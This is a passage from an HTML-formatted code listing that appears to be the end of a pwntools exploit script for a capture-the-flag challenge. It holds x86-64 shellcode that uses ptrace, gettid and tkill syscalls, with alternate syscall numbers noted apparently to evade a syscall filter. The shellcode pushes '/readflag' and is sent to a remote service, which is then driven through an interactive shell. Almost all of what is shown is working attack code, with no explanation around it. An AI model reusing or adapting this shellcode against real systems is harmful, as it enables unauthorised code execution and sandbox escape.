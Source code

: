 <span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;rdi,&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;rsi,&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;rdx,&nbsp;0</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;r10,&nbsp;0</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;rax,&nbsp;101</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;syscall</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c"></span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;/*&nbsp;syscall(SYS_gettid)&nbsp;*/</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;rax,&nbsp;0x27/*0xba*/</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;syscall</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c"></span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;/*&nbsp;syscall(SYS_tkill,&nbsp;pid,&nbsp;SIGSTOP)&nbsp;*/</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;rdi,&nbsp;rax</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;rsi,&nbsp;0x13</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;rax,&nbsp;0x3e/*0xc8*/</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;syscall</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c"></span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">'</span><span style="color:#63a35c">''</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>&nbsp;shellcraft.pushstr(<span style="color:#63a35c">'/readflag'</span>)&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>&nbsp;<span style="color:#63a35c">''</span><span style="color:#63a35c">'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;rdi,rsp</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;xor&nbsp;edx,edx</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;xor&nbsp;esi,esi</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;xor&nbsp;rax,rax</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;push&nbsp;rdi</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;push&nbsp;rdi</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;rsi,rdi</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;rax,39</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;syscall'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">''</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">r.sendline(asm(shellcode))</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.interactive()</div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#e5e5e5text-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>

